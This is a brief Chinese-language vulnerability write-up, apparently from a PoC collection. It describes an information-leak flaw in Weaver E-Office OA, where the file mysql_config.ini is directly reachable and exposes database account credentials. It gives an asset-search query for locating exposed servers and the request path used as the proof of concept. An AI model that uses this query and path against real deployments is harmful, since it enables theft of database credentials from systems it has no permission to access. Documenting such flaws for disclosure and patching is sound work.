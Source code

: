 # 

# 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

```
泛微 E-Office
```

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

产品页面

![img](./images/202202091048925.png)

验证POC

```php
/mysql_config.ini
```

![img](./images/202202091048869.png)

